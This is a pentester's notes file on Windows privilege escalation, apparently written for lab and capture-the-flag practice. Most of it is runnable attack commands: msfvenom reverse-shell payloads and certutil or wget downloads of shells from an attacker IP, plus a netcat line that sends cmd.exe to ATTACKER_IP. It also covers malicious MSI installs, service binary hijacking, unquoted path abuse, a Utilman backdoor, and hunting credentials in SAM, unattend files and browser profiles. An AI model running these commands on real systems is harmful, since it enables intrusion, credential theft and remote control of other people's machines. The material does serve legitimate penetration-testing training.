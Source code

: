 
other guides to check out:
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
https://fuzzysecurity.com/tutorials/16.html
More links: https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources

can use iron corp to test win stuff

if webshell
	get info on current dir `cd`
	go to and list contents of a dir `cd C:\Windows\Microsoft.NET\Framework\ && dir`

First checks
	List environment
		cmd: `set`
		ps: `Get-ChildItem env: | Format-Table -Wrap`
	Information
		cmd: `ver`
		cmd: `systeminfo`
		ps: Get-SystemInfo
		cmd: `tasklist`
		ps: `Get-LocalUser`
	Networking
		cmd: `ipconfig /all`
		ps: `Get-NetIPConfiguration`
		ps: `Get-NetIPAddress`
		cmd: `netstat`
		ps: `Get-NetTCPConnection`
	whatever

whoami /all

net user - list local users
net user username
net user administrator
net localgroup
net localgroup administrators

ipconfig /all
dns might be domain server

arp -a
are there other computer but us and the dns?

route print

netstat -ano
what are we listening on, did we see all in nmap

--

manual password hunting
`findstr /ai password *.txt *.ini *.config*` does a recursive search in files
also search for uid, pwd and auth

av & fw
`sc` - service controll
`sc query windefend`
`sc queryex type=service`
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config


wmic
	`wmic qfe` quick fix engineering - list hotfixes/patches
	`wmic logicaldisc` - list drives


Remember
`dir /a` Displays hidden and system files as well.
`dir /s` Displays files in the current directory and all subdirectories.

Check for credentials left from unattended installation:
	`C:\Unattend.xml`
	`C:\Windows\Panther\Unattend.xml`
	`C:\Windows\Panther\Unattend\Unattend.xml`
	`C:\Windows\system32\sysprep.inf`
	`C:\Windows\system32\sysprep\sysprep.xml`
	File format: [[unattended installation credential files]]

Powershell history
	cmd: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
	ps: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

Other interesting files
	`\windows\win.ini`
	`\windows\system32\config\sam`

Autologon credentials?


Saved/stored credentials
	cmd/ps: `cmdkey /list` no passwords, but can be used with `runas /savecred /user:admin cmd.exe`

Cached credentials
	TODO!

Credential files
	Firefox
		https://book.hacktricks.wiki/en/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts.html?highlight=firefox#firefox
		`%userprofile%\AppData\Roaming\Mozilla\Firefox\Profiles\`
	Chrome...

Configuration files
	find strings in logfiles
		cmd/ps: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
	IIS
		`C:\inetpub\wwwroot\web.config`
		`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	Putty
		cmd/ps: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s` proxy creds?
	Add more - software that store creds have methods to retrieve them - browsers, email-, FTP-, SSH clients, VNC software ...

Scheduled tasks
	`schtasks` list all tasks
	`schtasks /query /tn [taskname] /fo list /v` get more info on task
	`schtasks /run /tn [taskname]` start task (if perms)

Permissions and ownership
	`icacls .` [[icacls]]

Getting text into text files at ps/cmd-prompt
	cmd: `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

MSI installation perms
	These reg keys needs to be set to exploit AlwaysInstallElevated:
		`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
		`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
	Generate msi:
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`
	Run it:
		`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

Services
	[[services, control]]
	Get info
		ps: `Get-Service` list services
		`sc qc [service name]` get info on specific service
	Service info location in registry
		`HKLM\SYSTEM\CurrentControlSet\Services\`
	Get perms
		ps, cmd: `icacls [service executable]` executable = BINARY_PATH_NAME in sc, ImagePath in registry
		can be found by winpeas
		set perms
			ps, cmd: `icacls "C:\PROGRA~2\SYSTEM~1\WService.exe" /grant Everyone:F`
	Exploiting Modify permissions on the service exe - Generate service executable, upload, set perms
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `Stop-Service -Name WindowsScheduler -Force`
		cmd: `net stop WindowsScheduler`
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Start-Service -Name "SERVICE-NAME"`
		cmd: `net start "SERVICE-NAME"`
	Exploiting Unquoted Service Paths
		Execution order of unquoted path: `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
			1. `C:\MyPrograms\Disk.exe`
			2. `C:\MyPrograms\Disk Sorter.exe`
			3. `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\MyPrograms\Disk.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\MyPrograms\Disk.exe"`
		ps, cmd: `icacls C:\MyPrograms\Disk.exe /grant Everyone:F`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name "SERVICE-NAME" -Force`
		cmd: `net stop "SERVICE-NAME" && net start "SERVICE-NAME"`
	Exploiting Insecure Service Permissions
		ps, cmd: `sc.exe sdshow thmservice` Check service permissions [[permissions SDDL]]
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\Users\thm-unpriv\rev-svc3.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\Users\thm-unpriv\rev-svc3.exe"`
		ps, cmd: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
		To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):
		ps:  `sc.exe config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		cmd: `sc config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name THMService -Force`
		cmd: `net stop "SERVICE-NAME" && net start THMService`

Check your current integrity level with
	`whoami /groups`
	more info https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels

Privileges
	`whoami /priv` shows only current ones, not the admin mode ones (like being in the backup group ones)
	`whoami /all` to see groups too as we probably have to open cmd as admin to get all privileges
	[Complete list of privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
	Find ways to exploit: [here](https://github.com/gtworek/Priv2Admin)
	If `SeBackupPriviledge` we can read any file
		- [[PrivEsc/Privileges/SeBackupPriviledge - SAM.. read|SeBackupPriviledge - SAM.. read]] (not for ad servers)
		- [[PrivEsc/Privileges/SeBackupPriviledge - NTDS.dit read|SeBackupPriviledge - NTDS.dit read]] (ad servers)
		- [[PrivEsc/Privileges/SeBackupPriviledge - File Permission changes|SeBackupPriviledge - File Permission changes]]
	if `SeTakeOwnershipPrivilege` we can take ownership of any object on the system, including files and registry keys
		`takeown /f C:\Windows\System32\Utilman.exe`
		`icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
		`copy cmd.exe utilman.exe`
		Lock the console and press `Win+U`
	if `SeImpersonate` or `SeAssignPrimaryToken`
		Account with these privs: `LOCAL SERVICE`, `NETWORK SERVICE ACCOUNTS`, `iis apppool\defaultapppool`, others?
		Exploit this by:
			1. spawn a process with ^ that users can connect and authenticate to
			2. force privileged users to connect and authenticate
	https://www.exploit-db.com/papers/42556
	SeTcbPrivilege
	SeRestorePrivilege
	SeCreateTokenPrivilege
	SeLoadDriverPrivilege - load bad driver - messy way
	SeDebugPrivilege
	SeMachineAccountPrivilege - add computer account n esc?

Installed/unpatched software
	`wmic product get name,version,vendor` enum programs - also check desktop shortcuts, start menu, available services...
	look for exploits for the apps
	Druva inSync 6.6.3 - example https://www.exploit-db.com/exploits/49211

HotFixes
	`wmic qfe get Caption,Description,HotFixID,InstalledOn`

List drive letters
	`(wmic logicaldisk get caption 2>nul | more) || (fsutil fsinfo drives 2>nul)`

Metasploit
	go from nc shell to msf
		make msfvenom payload
			`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.21.236 LPORT=444 -f exe -o revsh-meterpr-444.exe`
		from the box - copy to box
			`certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" "C:\windows\temp\revsh-meterpr-444.exe"`
		start metasploit listener on attacker machine
			`msfconsole -q`
				`use exploit/multi/handler`
				`set payload windows/meterpreter/reverse_tcp`
				`set lhost 10.18.21.236`
				`set lport 444`
				`options` check that it's all correct
				`run` will start listening
		from the box - start revsh
			`C:\windows\temp\revsh-meterpr-444.exe`
	if connected
		`multi/recon/local_exploit_suggester`

Tools
	WinPEAS
		start kali python http server `python3 -m http.server 8000`
		 https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS exe, bat & ps1 versions
		cmd: `certutil -urlcache -split -f http://10.21.31.111:8000/enum/winPEASany.exe C:\windows\temp\winpeas.exe`
		ps: `iwr "http://10.18.21.236:8000/enum/winPEASany.exe" -outfile "C:\windows\temp\winpeas.exe"`
		`winpeas > log.txt`
	PrivescCheck
		https://github.com/itm4n/PrivescCheck
		Bypass execution policy restrictions before running:
			`Set-ExecutionPolicy Bypass -Scope process -Force`
			`. .\PrivescCheck.ps1`
			`Invoke-PrivescCheck`
		Basic check
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
		Extended checks + human-readable reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"`
		All checks + all reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"`
	WES-NG
		https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
		runs on attacker box
		install, run "wes.py --update" to upd database
		run `systeminfo > info.txt` on windows box
		run `wes.py info.txt` on attacker box

